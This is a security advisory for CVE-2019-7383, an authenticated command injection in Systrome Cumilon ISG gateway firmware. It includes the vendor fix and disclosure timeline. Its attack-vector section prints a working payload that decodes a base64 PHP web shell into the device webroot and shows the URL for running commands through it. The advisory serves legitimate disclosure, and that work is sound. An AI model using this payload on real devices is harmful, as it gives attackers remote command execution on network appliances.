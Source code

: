 =====================================
Authenticated Shell Command Injection
=====================================

. contents:: Table Of Content

Overview
========

Title : Authenticated Shell command Injection
Author: Kaustubh G. Padwad
CVE ID: CVE-2019-7383
Vendor: Systrome Networks (http://systrome.com/about/)
Products:
	 1.ISG-600C
	 2.ISG-600H
	 3.ISG-800W


Tested Version: : ISG-V1.1-R2.1_TRUNK-20181105.bin(Respetive for others)
Severity: High--Critical

Advisory ID
============
KSA-Dev-003


About the Product:
==================

Cumilon ISG-* cloud gateway is the security product developed by Systrome for the distributed access network for the cloud-computing era. It integrates the L2-L7security features of the next-generation firewall, is based on the user identification and application identification and provides the application-layer firewall, intrusion prevention, anti-virus, anti-APT, VPN, intelligent bandwidth management, multi-egress link load balancing, content filtering, URL filtering, and other security functions. It provides the cloud interface. The security cloud management platform based on the big data platform architecture can monitor the network topology and device status in real time, simplifying the online deployment of the professional device via the auto configuration delivery. The real-time monitoring of the mobile terminal reduces the maintenance cost and makes the security visible at any time and anywhere. Systrome cloud gateway is the best access security choice of the middle and small enterprises, branch interconnection, and chain enterprises.

Description: 
============
An issue was discovered on Systrome Cumilon ISG-600C, ISG-600H, and ISG-800W devices with firmware V1.1-R2.1_TRUNK-20181105.bin.
A shell command injection occurs by editing the description of an ISP file. The file network/isp/isp_update_edit.php does not properly validate user input, which leads to shell command injection via the des parameter.

[Additional_information]

The php file ./network/isp/isp_update_edit.php dose not properly validate the user input which leads to to shell command injection.
below is the vulnerable code snipet  "<td><input name="des" id="des" value="<?php echo $item['des'];?>" type="text" <?php echo $item['des'];?> size="50" maxlength="<?php echo XML_MAX_DESC_LEN;?>"/><"

[VulnerabilityType Other]
Authenticated Shell Command Injection


[Affected Component]
The php file ./network/isp/isp_update_edit.php dose not properly validate the user input which leads to to shell command injection.
below is the vulnerable code snippet  "<td><input name="des" id="des" value="<?php echo $item['des'];?>" type="text" <?

[Attack Type]
Local


[Impact Code execution]
true


[Attack Vectors]

visit the url http://device_ip/network/isp/isp_update_edit.php?pv=ISP_INTL.dat
adding the strings below will add a php system command shell in the webroot of the device:
'`echo PD9waHAKJGNtZD0kX0dFVFsnY21kJ107CnN5c3RlbSgkY21kKTsKPz4KCg== | base64 -d > /usr/local/wwwroot/cmd.php`' 

the php system shell can then be accessed via browser, e.g: http://device_ip/cmd.php?cmd=ifconfig


Mitigation
==========

This issue is fixed in ISG-V1.1-R2.1_TRUNK-20181229.bin

Disclosure: 
===========
10-Dec-2018 Discoverd the Vulnerability
10-DEC-2018 Reported to vendor 
04-JAN-2019 Recived the fixed from vendor
04-JAN-2019 Request for the CVE-ID
04-FEB-2019 CVE ID Assign.
08-FEB-2019 Advisiory Published.

[Discoverer]
* Kaustubh Padwad, 
* Information Security Researcher
* kingkaustubh@me.com
* https://s3curityb3ast.github.io/
* https://twitter.com/s3curityb3ast
* http://breakthesec.com
* https://www.linkedin.com/in/kaustubhpadwad


